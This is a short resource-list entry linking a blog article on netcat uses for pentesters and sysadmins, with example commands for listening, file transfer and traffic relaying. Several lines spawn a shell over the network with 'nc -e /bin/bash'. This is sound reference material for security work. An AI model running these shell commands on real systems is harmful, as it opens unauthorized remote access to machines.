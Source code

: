 [Netcat - All you need to know](https://blog.ikuamike.io/posts/2021/netcat/)

*Description*: In this article we’ll look at different applications of netcat and how it can be useful in day to day activities of a pentester, security professional, sysadmin etc…

*Labels*: #Netcat #Pentest

*Examples*:

```bash
$ nc -lvnp 8080                                    # start listening for connection
$ nc -lvnp 8080 -e /bin/bash                       # reverse shell on server
$ nc 127.0.0.1 8080                                # connect to server
$ nc 127.0.0.1 8080 -e /bin/bash                   # reverse shell on client
$ nc -lvnp 8080 < infile                           # transfer file
$ nc 127.0.0.1 8080 > outfile                      # receive file
$ nc -klvnp 8000 -e "/bin/nc 192.168.125.40 8080"  # redirect traffic
```
